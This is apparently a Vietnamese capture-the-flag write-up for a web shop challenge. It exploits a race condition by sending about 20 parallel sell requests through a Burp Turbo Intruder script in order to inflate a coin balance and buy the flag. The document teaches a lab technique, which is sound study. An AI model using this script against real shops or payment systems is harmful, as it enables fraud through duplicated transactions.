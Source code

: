 # Giới thiệu
- Link: [Có thể bị xoá sau này](http://152.67.127.64:8013/)
- Mô tả: Đơn giản là mua flag thôi

# Chợ bến thành
- Nhìn qua cái webpage thì tôi nghĩ ngay đến việc dùng race condition, đại khái là bạn sẽ gửi nhiều cùng một request nhiều lần trong một thòi điểm nhất định

![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/4796164f-16e4-482c-aa78-e32af7a1ce4f)
- Ta mua một item rồi, rồi chuyển sell request sang repeater. Sau đó tạo một group, và copy khoảng vài chục cái request khác để add vào group, tôi sẽ để khoảng 20 request 

![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/ab7aeca6-6eab-410a-9fbf-3b673c44af19)
- Ở nút send có một mũi tên xuống, có 3 lựa chọn ở đây, tôi sẽ chọn ```send group in parallel``` (gửi song song) và kết quả là

![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/b659d196-6af6-4280-9c44-504aef32b902)
- Có vẻ nó không hoạt động, thực ra tôi cũng đã đoán trước rồi :|| vì cách này không có hiệu quả với HTTP/1
- Ta vẫn còn một con đường khác là dùng một extension của Burp là Turbo Intruder, tôi sẽ dùng scripts như sau

      def queueRequests(target, wordlists):
      
          # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
          # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
          # for more information, check out https://portswigger.net/research/smashing-the-state-machine
          engine = RequestEngine(endpoint=target.endpoint,
                                 concurrentConnections=20,
                                 engine=Engine.THREADED
                                 )
      
          # the 'gate' argument withholds part of each request until openGate is invoked
          # if you see a negative timestamp, the server responded before the request was complete
          for i in range(20):
              engine.queue(target.req, gate='1')
      
          # once every 'race1' tagged request has been queued
          # invoke engine.openGate() to send them in sync
          engine.openGate('1')
      
      
      def handleResponse(req, interesting):
          table.add(req)
![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/e1293b8e-de9e-4617-adc0-f16ea9630738)
- Giờ chọn Attack và xem kết quả thôi

![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/a5457aab-6cb6-4188-9ed0-acfdb7317f00)
- Ok thì response trả về mỗi cái một kiểu nên chúng ta thử ra check ở web nhé ![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/4837d453-bfc4-44ca-942f-f8d3d6333b15)
- Thế là ta đã có đủ tiền mua flag rồi (thực tế nếu race condition thành công mĩ mãn thì đánh lẽ ta có thể thu được lên tới 20 lần số coin bán đi, nhưng ở đây như này đã là quá đủ rồi)
- Giờ mua flag rồi bán đi thì ta sẽ có flag ![image](https://github.com/Myozz/CTF_WriteUp/assets/94811005/a2b6e63c-4d4c-49e3-8f1c-1fc5065578f8)
